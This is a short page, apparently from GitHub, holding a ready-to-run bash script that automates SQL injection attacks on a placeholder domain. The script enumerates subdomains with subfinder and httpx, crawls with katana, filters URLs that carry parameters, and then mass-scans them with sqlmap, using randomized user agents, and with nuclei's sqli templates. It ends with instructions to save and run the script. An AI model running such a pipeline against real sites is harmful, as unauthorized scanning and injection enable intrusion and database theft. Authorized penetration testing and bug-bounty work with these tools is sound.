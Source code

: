 ```bash
#!/bin/bash
TARGET="example.com"

echo "[+] Starting SQL Injection Testing on $TARGET"

# Phase 1: Reconnaissance
echo "[*] Phase 1: Finding subdomains..."
subfinder -d $TARGET -silent -o subdomains.txt
cat subdomains.txt | httpx -silent -o live_hosts.txt
echo "[✓] Found $(wc -l < live_hosts.txt) live hosts"

# Phase 2: Crawling
echo "[*] Phase 2: Crawling URLs..."
cat live_hosts.txt | katana -d 3 -f -silent -o all_urls.txt
echo "[✓] Found $(wc -l < all_urls.txt) URLs"

# Phase 3: Parameter Discovery
echo "[*] Phase 3: Filtering parameter URLs..."
cat all_urls.txt | grep "?" > params_urls.txt
echo "[✓] Found $(wc -l < params_urls.txt) URLs with parameters"

# Phase 4: Automated Scanning
echo "[*] Phase 4: Running SQLMap..."
sqlmap -m params_urls.txt \
  --batch \
  --level=2 \
  --risk=2 \
  --threads=10 \
  --random-agent \
  --output-dir=sqlmap_results/ \
  2>&1 | tee sqlmap.log

echo "[*] Running Nuclei..."
nuclei -l all_urls.txt \
  -t sqli/ \
  -silent \
  -o nuclei_sqli.txt

# Results Summary
echo ""
echo "[+] Scan Complete!"
echo "[*] Check results in:"
echo "    - sqlmap_results/"
echo "    - nuclei_sqli.txt"
echo "    - sqlmap.log"
```

**Save as `sqli_scanner.sh` and run:**
```bash
chmod +x sqli_scanner.sh
./sqli_scanner.sh
```

---
